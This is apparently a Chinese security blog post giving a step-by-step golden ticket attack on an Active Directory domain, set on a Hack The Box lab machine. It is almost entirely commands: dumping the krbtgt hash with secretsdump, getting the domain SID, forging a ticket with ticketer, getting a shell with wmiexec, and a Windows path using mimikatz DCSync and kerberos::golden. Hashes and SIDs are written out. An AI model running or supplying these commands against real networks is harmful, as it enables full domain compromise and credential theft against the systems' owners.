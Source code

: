 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk0ODY1NzEwMA==&mid=2247492299&idx=1&sn=e3b22eb71d23c63deb70606b803bcaa5

#  内网渗透—黄金票据  
原创 摆烂的beizeng  土拨鼠的安全屋   2025-07-02 00:30  
  
#   
# 攻击步骤-Linux  
  
1、获取目标hash  

```
└─# python3 secretsdump.py htb.local/Administrator@10.129.1.77 -hashes :32693b11e6aa90eb43d32c72a07ceea6 -just-dc-user krbtgt

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPa4rQuy9aTQ03JuhumKy5r0svW3DaO7c2DUicRj9dsW1KhIZlsibDeS0A/640?wx_fmt=png&from=appmsg "")  
  
2、获取域SID  

```
python3 lookupsid.py htb.local/Administrator@10.129.1.77 -hashes :32693b11e6aa90eb43d32c72a07ceea6

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPLLFicmdicnW6JITWQIMCkzzS6BkrTlZFSU67OlnTjVy9NzwNHhtOqyEA/640?wx_fmt=png&from=appmsg "")  
  
3、  

```
sudo sntp 10.129.1.77
export KRB5CCNAME=Administrator.ccache

```

  
4、获取票据  

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local Administrator

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP1NnKdnOw7ByE8oZV1CU5xjd6erSjpcug41T2X8IPByqIhXu7UCjSLw/640?wx_fmt=png&from=appmsg "")  
  
5、获取shell  

```
python3 wmiexec.py htb.local/Administrator@FOREST.HTB.LOCAL -k -no-pass -dc-ip 10.129.1.77

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPBqXfWmuLXGhWicIXde8l7sBY6qicH8BtlUnhPfrRRAqriaYLcOQpGDHiag/640?wx_fmt=png&from=appmsg "")  
  
通过  
smbclient.py  
 的 SMB 身份验证和通过   
PSexec.py  
 的代码执行都适用于不存在的用户票证。但是，像   
wmiexec.py  
 这样的工具需要合法用户。  
# 攻击步骤-window  
  
1、获取目标hash以及域SID  

```
shell C:\Users\Public\mimikatz.exe &#34;lsadump::dcsync /domain:nme.com /user:krbtgt&#34; exit

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPnu5OeLKrMvQS5J0QEVPr5P0xKOFjmeUNXDMJJFSUpx973CooMYB77A/640?wx_fmt=png&from=appmsg "")  
  
2、  

```
shell C:\Users\Public\mimikatz.exe &#34;kerberos::golden /user:administrator /domain:nme.com /sid:S-1-5-21-1320099598-2908268986-1567087253-502 /krbtgt:ceb421a3817b7260ce53be2021dc4c4f /ticket:Administrator.kiribi&#34; exit

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP41ia387oRtaSqOsibymjWjyuNj7icx6nM2IaomsHicsI44YUlgBwv64wOA/640?wx_fmt=png&from=appmsg "")  
  
  
  
